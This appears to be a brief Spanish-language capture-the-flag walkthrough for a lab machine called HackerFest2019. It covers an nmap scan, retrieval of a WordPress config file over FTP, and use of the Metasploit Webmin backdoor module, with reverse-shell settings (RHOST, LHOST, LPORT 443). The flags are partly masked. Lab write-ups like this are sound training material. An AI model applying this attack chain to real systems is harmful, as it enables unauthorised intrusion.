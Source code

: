 # HackerFest2019 - Walkthrough



`nmap -sC -sV 192.168.153.32 -o nmap-scan`

**Escaneo de Puertos**

![](images/hackerfest2019/nmap1.png)

![](/images/hackerfest2019/nmap2.png)

Dentro de los archivos que existen dentro de FTP esta wp-config.php

**Extraccion de archivo de configuracion de wordpress**

![](/images/hackerfest2019/accesoftp.png)

**Revision del contenido de wp-config.php**

![](/images/hackerfest2019/wp-config.png)

No se puede acceder con estas credenciales ni via SSH ni en wp-admin. Otro vector de ataque seria utilizando un exploit para webmin

**Exploits sugeridos para Webmin**

![](/images/hackerfest2019/searchsploit.png)

![](/images/hackerfest2019/webmin.png)

**Configuracion en Rapid7**

![](/images/hackerfest2019/rapid7.png)

Se ingresa a metasploit los datos que se solicitan para el exploit.

+ RHOST 192.168.153.32
+ LHOST 192.168.49.153
+ LPORT 443
+ exploit target 0 
+ SSL true
+ forceexploit true

**Exploit**

![](/images/hackerfest2019/exploit.png)

**Flag{92bf511a#######################}**  proof.txt
**Flag{d1d8bcfa########################}** local.txt

## Referencias

+ **Pasos para ejecutar el exploit** https://www.rapid7.com/db/modules/exploit/linux/http/webmin_backdoor
+ **Exploit Webmin 1.920 -Remote Code Execution** https://www.exploit-db.com/exploits/47293

